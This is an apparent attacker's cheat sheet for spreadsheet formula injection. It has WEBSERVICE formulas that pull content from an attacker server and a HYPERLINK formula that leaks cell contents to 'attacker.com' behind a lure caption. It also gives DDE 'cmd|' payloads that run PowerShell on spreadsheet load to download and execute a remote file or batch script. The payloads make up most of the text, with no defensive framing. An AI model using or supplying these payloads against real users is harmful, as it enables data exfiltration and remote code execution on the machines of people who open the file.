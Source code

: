 Useful Links
---------------------------------------------
https://www.notsosecure.com/data-exfiltration-formula-injection/

Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################

To fill in multiple cells use multiple html file

=WEBSERVICE("http://www.attacker.com/al.html")
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################

=WEBSERVICE("http://www.attacker.com/a2.html")
############ Begin a2.html ##################################
Data
############ End a2.html ####################################


Use Hyperlink formula to send data to attacking server
------------------------------------------------------
# This will send the data from cells "C2" and "D2" to the attackers server using the GET method. 
=HYPERLINK("http://www.attacker.com?leak="&C2&D2,"Please click for further information")


Execute content when the spreadsheet loads
------------------------------------------------
# Works with any payload, will open associated extension or run exe, bat, etc....
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/index.jpeg;Start-Process index.jpeg'!A0
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/ps.bat;Start-Process ps.bat'!A0

